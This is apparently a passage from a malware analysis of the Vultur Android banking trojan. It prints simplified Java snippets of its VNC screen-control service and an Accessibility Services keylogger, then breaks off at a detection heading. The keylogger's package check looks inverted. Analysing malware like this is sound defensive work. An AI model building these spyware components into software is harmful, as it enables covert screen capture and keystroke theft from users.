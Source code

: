 ### Remote VNC control

The malware employs native libraries (e.g., `libavnc.so`) to handle VNC functionalities, interfacing with the main application through wrapper classes. This approach complicates analysis and detection efforts.

For instance, the following code snippet demonstrates how Vultur starts its VNC server:

```java
public class VNCService extends Service {
    static {
        System.loadLibrary("avnc");
    }

    private native void nstart_vnc();

    @Override
    public void onCreate() {
        super.onCreate();
        new Thread(() -> nstart_vnc()).start();
    }
}
```

In this snippet, the `nstart_vnc` native method is invoked within a new thread to initiate the VNC server, enabling screen recording capabilities.

### Keylogging via Accessibility Services

Vultur abuses Android’s Accessibility Services to monitor and record keystrokes from targeted applications. A simplified version of the keylogging function resembles the following:

```java
public static void keylog(AccessibilityEvent event) {
    // Determine the source package; default to "Unknown" if null
    String pkg = event.getPackageName() == null ? "Unknown" : event.getPackageName().toString();
    // Check if this package is already being monitored
    if (KeyloggerManager.isPackageKeylogged(pkg)) {
        return;
    }
    try {
        String data = event.getText().toString();
        if (!data.isEmpty()) {
            // Append captured data to the keylogger buffer
            KeyloggerManager.appendLog(pkg + " | " + data);
        }
    } catch (Exception e) {
        // Exception handling (logging, etc.)
    }
}
```

## Detection and Analysis
